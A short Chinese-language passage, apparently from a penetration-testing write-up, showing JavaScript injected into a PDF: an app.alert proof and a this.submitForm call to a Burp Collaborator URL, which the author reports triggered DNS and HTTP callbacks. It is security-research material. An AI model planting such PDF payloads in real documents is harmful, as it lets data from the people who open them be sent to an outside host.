 是的，我们成功获取了用户名和密码。

是时候打开我们之前下载的 pdf 文件了。

它执行我们插入的 js 代码。查看有效负载产生的爆音。

```
app.alert("alter alert");
```

![](img/48a8819267066c54c448e8dae2b35eda.png)

当然，你可以做的不止这些。我建议对这个主题进行更多的探索。

```
this.submitForm('http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net');
```

我们每次都必须点击“允许”,这使得整个过程非常繁琐。

(仅适用于上述有效载荷)

![](img/1d5361b3832f1e338eda43df98a7aa84.png)

我在我的 burp collab 服务器上获得了 DNS 和 HTTP 请求。

![](img/03ad06610dcafccff9a6a1cb4a49cbb2.png)
